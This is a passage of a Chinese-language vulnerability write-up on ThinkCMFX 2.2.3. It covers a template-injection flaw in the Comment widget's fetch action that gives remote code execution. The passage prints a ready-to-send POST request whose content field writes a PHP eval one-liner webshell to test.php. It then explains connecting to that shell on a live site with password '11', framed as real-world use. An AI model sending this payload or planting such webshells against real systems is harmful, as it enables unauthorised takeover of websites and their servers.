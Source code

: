 #### 0x01.2 漏洞原理

文件：ThinkCMFX_2.2.3\application\Portal\Controller\ArticleController.class.php 方法：public function edit_post(

![image](img/125cfe67ff8b5cdda20c4763791b6914.png)

这里不多讲，因为没得意义。详情请看先知的历史 tp 漏洞，谢谢：)

#### 0x02 前台模版注入漏洞-可 getshell 两处

##### 0x02.1 Comment 类模版引擎注入演示

```
url:http://thinkcmf.test/index.php?g=Comment&m=Widget&a=fetch
post:
templateFile=/../public/index
prefix=''
content=<php>file_put_contents('test.php','<?php eval($_REQUEST[11]);')</php> 
```

发送之后页面 http 状态会为 200，这样就表示成功了 简单讲解一下：content 我输入了 php 代码所以他会在本地跟路径创建一个一句话木马 test.php 所以实战过程中。

连接马子：[http://xxxxx.com/test.php](http://xxxxx.com/test.php) 密码:11 即可 getshell
